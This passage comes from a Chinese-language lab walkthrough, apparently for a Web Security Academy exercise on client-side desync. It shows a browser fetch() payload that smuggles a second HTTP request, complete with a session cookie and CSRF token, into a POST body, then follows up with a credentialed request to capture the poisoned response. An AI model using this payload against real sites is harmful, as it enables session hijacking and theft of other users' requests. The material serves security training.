 [![](assets/1705301772-377add662e09655c95270adbd0e31a4a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183422-7b17578c-b2c8-1.png)  
随后打开一个单独的Chrome浏览器示例，转到漏洞利用服务器，打开浏览器开发人员工具，转到Console选项卡使用fetch()API复制上一节中的攻击，在这里我们有意触发CORS错误以阻止浏览器遵循重定向，然后使用catch()方法继续攻击序列，我们此时可以看到两个请求：

-   已触发CORS错误的主请求
-   对主页的请求收到404响应

证实了可以从浏览器触发去同步矢量

```plain
fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net\r\nCookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123@163.com&website=http://www.baidu.com&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

[![](assets/1705301772-934dda1f5f3b81d3dfc3180b6f7d5cc0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183521-9e44ceba-b2c8-1.png)
